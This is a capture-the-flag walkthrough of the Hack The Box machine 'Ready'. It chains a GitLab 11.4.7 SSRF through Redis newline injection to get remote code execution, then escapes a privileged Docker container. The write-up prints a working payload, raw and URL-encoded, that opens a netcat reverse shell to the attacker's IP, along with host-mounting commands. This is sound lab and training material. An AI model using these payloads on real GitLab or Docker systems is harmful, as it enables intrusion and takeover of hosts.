 ```yaml
---
title: Hackthebox - Ready
date: 2020-12-14 00:00:00 +0530
categories: [hackthebox, linux]
tags: [gitlab 11.4.7, ssrf, radis, rce, privileged container]     # TAG names should always be lowercase
image: /assets/img/posts/ready/ready_banner.png
---
```



![](/assets/img/posts/ready/ready_banner.png)



<p align="right">   <a href="https://www.hackthebox.eu/home/users/profile/391067" target="_blank"><img loading="lazy" alt="x00tex" src="https://www.hackthebox.eu/badge/image/391067"></a>
</p>

# Enumeration

**IP-ADDR:** 10.10.10.220 ready.htb

**nmap scan:**
```bash
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
5080/tcp open  http    nginx
| http-robots.txt: 53 disallowed entries (15 shown)
| / /autocomplete/users /search /api /admin /profile 
| /dashboard /projects/new /groups/new /groups/*/edit /users /help 
|_/s/ /snippets/new /snippets/*/edit
| http-title: Sign in \xC2\xB7 GitLab
|_Requested resource was http://ready.htb:5080/users/sign_in
|_http-trane-info: Problem with XML parsing of /evox/about
```

Port 5080 running service nginx http server

Running gitlab instance **Version CE 11.4.7** *get in help section after register with new user*

![](/assets/img/posts/ready/running-gitlab.png)

# Foothold

## gitlab <11.4.8 SSRF via IPv6

Searching for gitlab exploit on exploitDB
```bash
❯ searchsploit gitlab 11.4.7
---------------------------------------------- ---------------------------------
 Exploit Title                                |  Path
---------------------------------------------- ---------------------------------
GitLab 11.4.7 - RCE (Authenticated) (2)       | ruby/webapps/49334.py
GitLab 11.4.7 - Remote Code Execution (Authen | ruby/webapps/49257.py
---------------------------------------------- ---------------------------------
```

* Blog on GitLab 11.4.7 Remote Code Execution from [https://liveoverflow.com/](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/)

*liveoverflow explain in his [blog](https://liveoverflow.com/gitlab-11-4-7-remote-code-execution-real-world-ctf-2018/) AWA in youtube [video](https://youtu.be/LrLJuyAdoAg)*

**Verify ssrf**

Using IPv6 address to bypass the filter on localhost.

![](/assets/img/posts/ready/gitlab-ssrf.png)

and it worked

![](/assets/img/posts/ready/bypass-local.png)

## New line injection to Exploit internal redis server

Got Payload form bug reported by [Jobert Abma hacker1 report](https://hackerone.com/reports/299473)
```rb
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/
 multi
 sadd resque:gitlab:queues system_hook_push
 lpush resque:gitlab:queue:system_hook_push "{\"class\":\"GitlabShellWorker\",\"args\":[\"class_eval\",\"open(\'|nc -e /bin/bash 10.10.15.71 4141\').read\"],\"retry\":3,\"queue\":\"system_hook_push\",\"jid\":\"ad52abc5641173e217eb2e52\",\"created_at\":1513714403.8122594,\"enqueued_at\":1513714403.8129568}"
 exec
 exec
/ssrf.git
```

url encoded from [url-encode-decode.com](https://www.url-encode-decode.com/)

```bash
❯ python payload-gen.py #Scripting left on payload generating becaouse for some reason gitlab returning 422 error on every request outside chromium browser.
IP: 10.10.15.71
Port: 4141
git://[0:0:0:0:0:ffff:127.0.0.1]:6379/%0D%0A+multi%0D%0A+sadd+resque%3Agitlab%3Aqueues+system_hook_push%0D%0A+lpush+resque%3Agitlab%3Aqueue%3Asystem_hook_push+%22%7B%5C%22class%5C%22%3A%5C%22GitlabShellWorker%5C%22%2C%5C%22args%5C%22%3A%5B%5C%22class_eval%5C%22%2C%5C%22open%28%5C%27%7Cnc+-e+%2Fbin%2Fbash+10.10.15.71+4141%5C%27%29.read%5C%22%5D%2C%5C%22retry%5C%22%3A3%2C%5C%22queue%5C%22%3A%5C%22system_hook_push%5C%22%2C%5C%22jid%5C%22%3A%5C%22ad52abc5641173e217eb2e52%5C%22%2C%5C%22created_at%5C%22%3A1513714403.8122594%2C%5C%22enqueued_at%5C%22%3A1513714403.8129568%7D%22%0D%0A+exec%0D%0A+exec%0D%0A%2Fssrf.git
```

Intercept "project import" request replace import url with paylad.

![](/assets/img/posts/ready/rev_shell.png)

# Privesc

* Inside docker container
```bash
[*] ctn000 Are we in a docker container?................................... yes!
---
... [snip] ...
-rwxr-xr-x 1 root root 0 Dec  1 12:41 /.dockerenv
```

Container's root password floting in `/` root directory but password is not working.

![](/assets/img/posts/ready/container-root_pass.png)
<!--YG65407Bjqvv9A0a8Tm_7w-->

Found gitlab config file backup in `/opt/backup/` directory and password.

![](/assets/img/posts/ready/gitlab-config.png)

and password work for container root

![](/assets/img/posts/ready/container-rooted.png)

Now running [deepce.sh](https://github.com/stealthcopter/deepce) script found Privileged Mode enable.
```bash
[+] Privileged Mode ......... Yes
```

## docker container with privileged

* [Escaping Docker Privileged Containers by Vickie Li](https://betterprogramming.pub/escaping-docker-privileged-containers-a7ae7d17f5a1)
* [hacktricks.xyz technique](https://book.hacktricks.xyz/linux-unix/privilege-escalation/docker-breakout#privileged-flag)

**Root-0x1**

Exploit docker Privileged Mode with deepce script
```bash
./deepce.sh --no-enumeration --exploit PRIVILEGED -cmd 'hostname' -q
```
![](/assets/img/posts/ready/exploit-deepce.png)

**Root-0x2**

The `--privileged` (Privileged Mode) flag allows the container to have access to the host devices. So container root user can mount host.

Privileged Mode allow continer root to run fdisk on host.
```bash
(remote) root@gitlab.example.com:/tmp$ fdisk -l
... [snip] ...

Device        Start      End  Sectors Size Type
/dev/sda1      2048     4095     2048   1M BIOS boot
/dev/sda2      4096 37746687 37742592  18G Linux filesystem
/dev/sda3  37746688 41940991  4194304   2G Linux swap
```

Host is in `/dev/sda2`

mounting host in the comtainer
```bash
mkdir /tmp/host
mount /dev/sda2 /tmp/host
wc -c /tmp/host/root/root.txt
```

![](/assets/img/posts/ready/mount-rooted.png)


finally root shell with deepce script

![](/assets/img/posts/ready/root-shell.png)
